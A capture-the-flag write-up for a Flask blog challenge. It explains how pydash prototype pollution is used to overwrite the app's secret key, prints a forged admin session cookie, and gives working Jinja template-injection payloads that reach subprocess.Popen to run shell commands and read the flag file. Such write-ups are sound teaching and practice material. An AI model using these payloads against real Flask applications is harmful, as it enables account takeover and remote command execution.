





# Anozer blog



## Website overview

The website is a simple blog, where you can login/logout, register and create articles.

By looking at the source code of the app, we can see an interesting line.

```py
@app.route("/articles/<name>")
def render_page(name):
    article_content = articles[name]
    if article_content == None:
        pass
    if 'user' in session and users[session['user']['username']]['seeTemplate'] != False:
        article_content = render_template_string(article_content)
    return render_template('article.html', article={'name':name, 'content':article_content})
```

This code says that if we have the attribute 
```py
users[session['user']['username']]['seeTemplate']
```
then we can render the strings, which leads to a SSTI (Server Side Template Injeection).

Unfortunately, the default value for seeTemplate is False for a new user.
```py
def create(self, username, password):
    if username in self.users:
        return 0
    self.users[username]= {'password': hashlib.sha256(password.encode()).hexdigest(), 'restricted': True, 'seeTemplate': False}
    return 1
```
And only the admin user has it enabled.

```py
def __init__(self):
    self.users['admin'] = {'password': hashlib.sha256("hehe".encode()).hexdigest(), 'restricted': False, 'seeTemplate':True }
    # different password for remote app
```

We can turn on seeTemplate, but once again, se are stuck, cause it's only if the user is not restricted (so the admin).

```py
def seeTemplate(self, username, value):
    if username in self.users and self.users[username].restricted == False:
        self.users[username].seeTemplate = value
```

To exploit the app, let's look into what appens when we create a new article.

```py
def set(self, article_name, article_content):
    pydash.set_(self, article_name, article_content)
    return True
```

Here, pydash is used to add an attribute to the class, so if we do 

```py
article = Article() # the article class
article.set("hello", "hi")

# article.hello = hi
```

With this, we can do prototype pollution.

Let's exploit it to change the secret flask token.

It was hard to find the payload because the flask token was in another file. But with

```py
__class__.__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.app.secret_key
```
We can set the token to `hehe` for example.

Then, we only have to put the same payload in local, set a password that we want for admin, and login with admin, so that we can retreive the signed cookie with the key we choosed (here it's "hehe").

This gives the cookie 
```
eyJ1c2VyIjp7InNlZVRlbXBsYXRlIjp0cnVlLCJ1c2VybmFtZSI6ImFkbWluIn19.ZFeZFA.-1IXSyYKGrAzpV1ejauts_IBgXI
```

Now that we have the cookie, we only have to set the cookie for the remote server and refresh the page. We can see that we are now authentified as admin.

Now it's just a basic SSTI. By creating articles with a random name and 
```py
{{"".__class__.__mro__[1].__subclasses__()}}
```
we can see all modules.



Then we need to find the index of subprocess.Popen, after some research, it appears to be 352

```py
{{"".__class__.__mro__[1].__subclasses__()[352]}}
```



Then we just have to do a ls

```py
{{"".__class__.__mro__[1].__subclasses__()[352]("ls", shell=True, stdout=-1).communicate()}}
```



We can see that the flag is just there. We only need to cat it.

```py
{{"".__class__.__mro__[1].__subclasses__()[352]("cat flag.txt", shell=True, stdout=-1).communicate()}}
```



And here we got the flag PWNME{de3P_pOL1uTi0n_cAn_B3_D3s7rUctIv3}.

Thanks for the challenge !!
